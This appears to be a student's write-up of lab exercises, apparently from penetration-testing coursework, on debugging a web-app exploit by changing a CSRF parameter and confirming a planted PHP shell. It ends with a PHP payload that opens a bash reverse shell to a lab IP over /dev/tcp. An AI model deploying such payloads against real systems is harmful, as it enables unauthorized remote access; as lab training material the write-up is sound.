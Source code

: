 ### 15.2.4.1 Exercises
#### 1. Observe the error that is generated when running the exploit.

![image-20200717130135824](.15.2.4.1.assets/image-20200717130135824.png)

#### 2. Attempt to troubleshoot the code and determine why the error occurs.

I added a print statement to show me the value of `location` before this function call and re-ran it:

![image-20200717131720465](.15.2.4.1.assets/image-20200717131720465.png)

Output:

![image-20200717131803404](.15.2.4.1.assets/image-20200717131803404.png)

The issue seems to be that the code is expecting the text `__c` to show up in the URL and was trying to use that as the delimiter for the split command.  However, we have `_sk_` instead.

#### 3. Modify the exploit in order to avoid the error and run it against your dedicated Linux client.

I modified the `csrf_param` value and changed it from `__c` to `_sk_`, then re-ran the code.

![image-20200717132028869](.15.2.4.1.assets/image-20200717132028869.png)

#### 4. Verify that your exploit worked by attempting to execute the whoami command using the remote php shell.

I was able to run a whoami command against the target using the php shell:

![image-20200717132205241](.15.2.4.1.assets/image-20200717132205241.png)

#### 5. Attempt to obtain a fully interactive shell with this exploit.

- I modified the payload for the PHP file to this:

  ```php
  payload = "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/192.168.119.216/8000 0>&1'\");?>"
  ```

- Started the NetCat Listener, visited the created page and got a reverse shell.![image-20200717141711619](.15.2.4.1.assets/image-20200717141711619.png)